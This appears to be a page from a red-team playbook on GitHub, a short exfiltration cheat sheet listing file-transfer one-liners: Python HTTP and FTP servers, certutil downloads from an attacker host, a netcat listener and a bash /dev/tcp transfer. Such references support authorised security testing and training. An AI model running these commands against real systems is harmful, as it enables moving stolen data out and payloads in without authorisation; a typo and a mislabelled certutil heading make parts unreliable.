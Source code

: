 # 7.2 Exfiltration

## Table of Contents

- [File Transfer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Transfer)
  - [Python SimpleHTTPServer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python-SimpleHTTPServer)
  - [Python3 HTTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python3-HTTP-Server)
  - [Simple FTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Simple-FTP-Server)
  - [Certutil](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Certutil)
  - [Transfering Files with Bash](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Transfering-Files-with-Bash)

### File Transfer

#### Python SimpleHTTPServer

```c
python -m SimpleHTTPServer <LPORT>
```

#### Python3 HTTP Server

```c
pyhton3 -m http.server <LPORT>
```

#### Simple FTP Server

```c
python -m pyftpdlib -p 21 --write
```

#### Certutil

##### Base64 Encoding

```c
certutil.exe -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### Base64 Decoding

```c
certutil.exe -decode <FILE>.txt <FILE>.dll
```

#### Transfering Files with Bash

```c
nc -lnvp <LPORT> < <FILE>
```

```c
bash -c 'cat < /dev/tcp/<LHOST>/<LPORT>' > <FILE>
```

### Previous

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
